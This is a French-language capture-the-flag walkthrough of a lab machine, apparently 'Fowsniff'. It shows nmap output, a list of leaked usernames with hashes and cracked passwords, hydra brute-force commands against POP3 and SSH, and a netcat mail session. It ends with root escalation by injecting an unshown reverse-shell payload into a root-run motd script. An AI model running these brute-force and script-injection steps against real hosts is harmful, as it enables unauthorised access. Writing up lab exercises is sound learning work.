 # enum
```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Fowsniff Corp - Delivering Solutions
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: CAPA UIDL PIPELINING SASL(PLAIN) AUTH-RESP-CODE USER TOP RESP-CODES
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: IDLE ENABLE listed AUTH=PLAINA0001 LITERAL+ more have IMAP4rev1 OK ID capabilities LOGIN-REFERRALS post-login SASL-IR Pre-login
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Resultat de recherche google sur fowsniff corp
```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4    : mailcall
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56 : bilbo101
tegel@fowsniff:1dc352435fecca338acfd4be10984009    : apples01
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb : skyler22
seina@fowsniff:90dc16d47114aa13671c697fd506cf26    : scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b  : carp4ever
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11   : orlando12
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e   : 07011972
```

```bash
awk -F'@' '{print $1}' creds > users
awk -F': ' '{print $2}' creds > pass 
```

```bash
hydra -L users -P pass -f 10.10.103.40 pop3 -V
```
	login: seina   password: scoobydoo2

```
nc 10.10.103.40 110   
```
	+OK Welcome to the Fowsniff Corporate Mail Server!
	user seina
	+OK
	pass scoobydoo2
	+OK Logged in
	list
	+OK 2 messages:
	1 1622
	2 1280
	.
	retr 1
	[***]
	The temporary password for SSH is "S1ck3nBluff+secureshell"
	[***]

```bash
hydra -L users -p S1ck3nBluff+secureshell -f 10.10.103.40 ssh -V
```
	login: baksteen   password: S1ck3nBluff+secureshell
```bash
ssh baksteen@10.10.103.40
```
# privesc
Recherche de fichier appartenant aux différents utilisateurs
```
find / -user parede -exec ls -ld {} \; 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'
```
	-rw-rwxr-- 1 parede users 851 Mar 11  2018 /opt/cube/cube.sh
L'utilisateur actuel appartient aux groupe users donc on peut ajouter un revshell dans le fichier
Je recherche un script qui exécute `cub.sh` avec les droit d'un autres utilisateur.
J'ai d'abord utiliser pspy et fouiller le cronjob sans succès. 
Donc je chercher des fichiers contenant `/opt/cube/cube.sh`
```
grep -r /opt/cube/cube.sh / 2>/dev/null
```
	/home/baksteen/.viminfo:> /opt/cube/cube.sh
	/etc/update-motd.d/00-header:sh /opt/cube/cube.sh

Le repertoire `/etc/update-motd.d` contient les scripts qui permettent d'afficher un message de bienvenue lors d'une connexion ssh. Et cela est toujours exécuter automatiquement par l'administrateur *root*.

Donc j'insert mon payload dans *cube.sh*, je me met en écoute sur ma machine et je me reconnecte par ssh à la cible.
Et voilà,  i'm root.
